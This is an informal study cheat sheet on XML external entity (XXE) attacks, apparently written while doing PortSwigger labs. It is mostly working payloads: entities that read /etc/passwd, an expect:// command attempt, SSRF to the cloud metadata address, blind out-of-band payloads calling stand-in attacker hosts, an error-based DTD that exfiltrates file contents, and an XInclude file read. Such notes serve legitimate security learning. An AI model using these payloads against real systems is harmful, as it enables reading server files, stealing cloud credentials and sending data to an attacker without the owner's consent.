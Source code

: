 # xml external entities (xxe)

  

## what is xml : extensible markup language

  

## simple payload :

```xml

<! DOCTYPE foo [ <!ELEMENT foo ANY >

<! ENTITY xxe SYSTEM "file:///etc/passwd" >]>

  

<creds>

 <user>

    &xxe;

 </user>

 <pass>

    password

 </pass>

</creds>

  

<?xml version="1.0" ?-->

```

  

```xml

<! DOCTYPE replace [<!ENTITY test "hello world"> ]>

  

<foo>

 <user>

    &test;

 </user>

</foo>

```

  

```xml

<?xml version="1.0" ?-->

<! DOCTYPE replace [<!ENTITY test SYSTEM "expect:///ls"> ]>

```

  

```xml

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

```

  

---

  

Entity let's say it like a variable  

Document type definition(DTD) define the Entities (DOCTYPE ..........)  

The DTD can be fully self-contained within the document itself (known as an "internal DTD") or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two.

  

the declaration of external entity uses the SYSTEM keyword

  

```xml

<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>

```

  

you can make it an ssrf by :

```xml

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>

```

  

---

  

## blind :

if regular entities are blocked , try this :

```xml

<!ENTITY % myparameterentity "my parameter entity value" >

%myparameterentity;

```

  

```xml

<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>

```

  

---

  

## Types :

- inband : the common type which display the output on the screen.  

- error based : this type is parsing the XML and you can see just Eroors.  

- out of band (oob) : this type is blind without any errors or results, you can do some

 requests to check it.

  

---

  

## Blind XXE with out-of-band interaction :

```xml

<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>

&xxe;

```

  

## Blind XXE with out-of-band interaction via XML parameter entities :

```xml

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>

```

  

---

  

## Exploiting blind XXE to exfiltrate data using a malicious external DTD :

waw , just repeat the lab in portswigger

  

---

  

### Exploiting blind XXE to retrieve data via error messages :

  

amazing idea when we retrive the data in a error message , we use a simple external DTD , and call it with a link in the xml request , we build an error in the DTD to see the data in the response , waw.

  

### the payloads :

  

#### the DTD :

```dtd

<!ENTITY % file SYSTEM "file:///etc/passwd">

<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">

%eval;

%exfil;

```

  

#### the request :

ofcorse with the other xml :

```xml

<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ae900530498c3b188572fd7014600bd.exploit-server.net/exploit"> %xxe;]>

```

  

## Exploiting XInclude to retrieve files :

  

when you dont have the xml in the request , but you know that the website use xml , and you can manipulate a parameter in the xml : try this :

  

in the parameter :

  

```xml

parameter=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>

```